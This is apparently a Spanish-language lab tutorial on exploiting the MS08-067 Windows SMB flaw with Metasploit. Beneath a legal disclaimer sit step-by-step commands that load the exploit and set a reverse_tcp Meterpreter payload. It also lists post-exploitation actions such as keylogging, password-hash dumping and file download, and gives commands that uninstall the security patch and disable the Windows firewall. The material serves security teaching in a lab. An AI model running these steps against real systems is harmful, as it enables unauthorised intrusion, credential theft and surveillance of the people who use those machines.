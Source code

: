 # 🛡️ **Guía para Explotar MS08-067 con Metasploit**

________________________________________
## ⚠️ **Aviso Legal / Disclaimer**
Este ejercicio se realiza únicamente con fines educativos y de aprendizaje en un entorno controlado y autorizado.
No debe utilizarse en redes, sistemas o equipos fuera del laboratorio sin el consentimiento explícito del propietario.
El uso indebido de estas técnicas en contextos reales puede ser ilegal y tener consecuencias legales graves.
Como estudiantes y profesionales de la ciberseguridad, debemos actuar siempre de forma ética y responsable.
________________________________________

Esta guía explica paso a paso cómo explotar la vulnerabilidad MS08-067 (netapi) usando Metasploit Framework. Solo debe usarse con fines educativos o en entornos de laboratorio controlado. Explotar sistemas sin permiso es ilegal.

## 🛡️ **¿Qué es MS08-067?**
- Vulnerabilidad crítica en el servicio Server (netapi32.dll) de Windows.
- Permite ejecución remota de código sin autenticación.
- Afecta Windows XP SP2/SP3 y Server 2003 sin parches.
- Fue utilizada por el gusano Conficker.

## 🧰 **Requisitos del entorno de laboratorio**
- Kali Linux (máquina atacante). https://www.kali.org/get-kali/#kali-platforms
- Máquina víctima: Windows XP SP2/SP3 sin parches. https://archive.org/details/windows-xp-sp-2-september-2008
- Máquina víctima: Linuix (opcional). https://sourceforge.net/projects/metasploitable/
- Ambas en la misma red (real o virtual).

## 🧪 **Paso a paso: Explotación con Metasploit**

**🔹 1. Obtener la IP de la víctima** (en la máquina Windows)
<pre>ipconfig.</pre>

**🔹 2. Iniciar Metasploit** (en Kali)
<pre>msfconsole</pre>

**🔹 3. Buscar el exploit**
<pre>search ms08_067</pre>

**🔹 4. Cargar el exploit**
<pre>use exploit/windows/smb/ms08_067_netapi</pre>

**🔹 5. Ver opciones**
<pre>show options</pre>

**🔹 6. Configurar opciones**
<pre>set RHOST [IP víctima]</pre>
<pre>set LHOST [IP atacante]</pre>
<pre>set PAYLOAD windows/meterpreter/reverse_tcp</pre>

**🔹 7. Verificar configuración**
<pre>show options</pre>

**🔹 8. Ejecutar exploit**
<pre>exploit</pre>

**Resultado esperado**
<pre> Meterpreter session 1 opened </pre> 
Se abre una shell Meterpreter si tuvo éxito.

## 🧠 **¿Qué hacer con Meterpreter?**
- **sysinfo:** Info del sistema.
- **getuid:** Usuario actual.
- **shell:** Abre terminal.
- **download archivo:** Descargar archivo.
- **screenshot:** Captura de pantalla.
- **keyscan_start:** Inicia keylogger.
- **hashdump:** Extrae hashes de contraseñas.

## ❌ **Consejos adicionales**

-Para verificar si el Windows XP es vulnerable:
<pre> nmap -p 445 --script smb-vuln-ms08-067 <IP_víctima> </pre>

- Verificar si el parche MS08-067 esta instalado:
<pre> systeminfo | find "KB958644" </pre>

- En caso de estar instalado usar el siguiente comando para desinstalarlo:
<pre> wusa /uninstall /kb:958644 </pre>

- Desactivar firewall de Windows:
<pre> netsh firewall set opmode disable </pre>

## 📚 **Recursos**
- [Exploit-DB: MS08-067](https://www.exploit-db.com/exploits/7104)
- [Rapid7 Metasploit Docs](https://www.rapid7.com/blog/post/2014/02/03/new-ms08-067/)
